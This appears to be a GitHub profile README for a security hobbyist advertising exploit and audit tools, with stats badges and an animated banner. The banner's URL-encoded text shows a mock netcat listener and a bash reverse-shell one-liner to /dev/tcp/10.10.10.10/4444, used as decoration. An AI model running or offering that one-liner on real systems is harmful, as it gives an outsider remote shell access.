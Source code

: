 <h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

<div align="left">
  <img src="https://visitor-badge.laobi.icu/badge?page_id=JoeArchV.JoeArchV&left_text=Profile%20views"  />
</div>

  <img height="320" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BJoeArchV%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;JoeArchV%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;JoeArchV"  />
</div>

<div align="left">
  <img src="https://github-readme-stats.vercel.app/api?username=JoeArchV&hide_title=true&hide_rank=false&show_icons=false&include_all_commits=true&count_private=true&disable_animations=false&theme=dark&locale=en&hide_border=false&order=1" height="130" alt="stats graph"  />
  <img src="https://github-readme-stats.vercel.app/api/top-langs?username=JoeArchV&locale=en&hide_title=false&layout=compact&card_width=320&langs_count=8&theme=dark&hide_border=false&order=2" height="130" alt="languages graph"  />
</div>
